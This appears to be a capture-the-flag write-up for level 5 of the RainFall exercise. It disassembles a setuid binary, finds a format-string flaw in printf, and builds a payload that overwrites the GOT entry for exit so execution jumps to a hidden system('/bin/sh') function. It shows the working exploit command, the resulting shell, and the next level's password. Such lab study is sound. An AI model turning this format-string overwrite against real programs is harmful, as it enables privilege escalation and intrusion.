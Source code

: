 # Level 5

- We login as user level5:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

```
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$ gdb level5
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```


- Let's identify the calls and jump by execution order:
```
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
```
>`0x8049848 <stdin@@GLIBC_2.0>: 0xb7fd1ac0`

>buffer size is 0x200 bytes

>buffer starts at `-0x208(%ebp)`

>Prompt the user for up to 512 bytes.

```
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
```
>Call `<printf@plt>` with our buffer.


```
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```
>Call `exit()`


- Thanks to `<printf@plt>`, we can redirect the program's execution flow by modifying the behavior of `call 0x80483d0 <exit@plt>`.
```
(gdb) x 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
(gdb) x/x 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
(gdb) x/2i 0x080483d6
   0x80483d6 <exit@plt+6>:      push   $0x28
   0x80483db <exit@plt+11>:     jmp    0x8048370
```


- When the program executes `call 0x80483d0 <exit@plt>`, it actually `jmp` to the instruction located at the address contained in `0x8049838`, which is at `0x80483d6`, where it will execute `push $0x28`.
By changing the value stored at address `0x8049838`, you can redirect the program's execution flow. You could, therefore, make it execute shellcode instead, but if you `(gdb) info functions`:
```
All defined functions:

Non-debugging symbols:
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
```

```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```
>`0x80485f0: "/bin/sh"`


- Look! A function that is not called anywhere but calls `system("/bin/sh")`! By putting the value `0804 84a4` into `0x8049838`, the program's execution should be redirected to this function.
>Low order bytes = 84a4 (33 956 in decimal)

>High order bytes = 0804 (2052 in decimal)

>`\x40\x98\04\x08\x38\x98\x04\x08 %VALUE1x %4$hn %VALUE2x %5$hn`

>`VALUE1 (0x8049840)` ==> 2052 - 8 bytes for the addresses - 2 bytes for the spaces = 2042

>`VALUE2 (0x8049838)` ==> 33 956 - 2052 - 2 bytes for the spaces = 31 902

- So:
```
level5@RainFall:~$ (echo -ne '\x40\x98\04\x08\x38\x98\x04\x08 %2042x %4$hn %31902x %5$hn'; cat) | ./level5
...
whoami
level6

cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
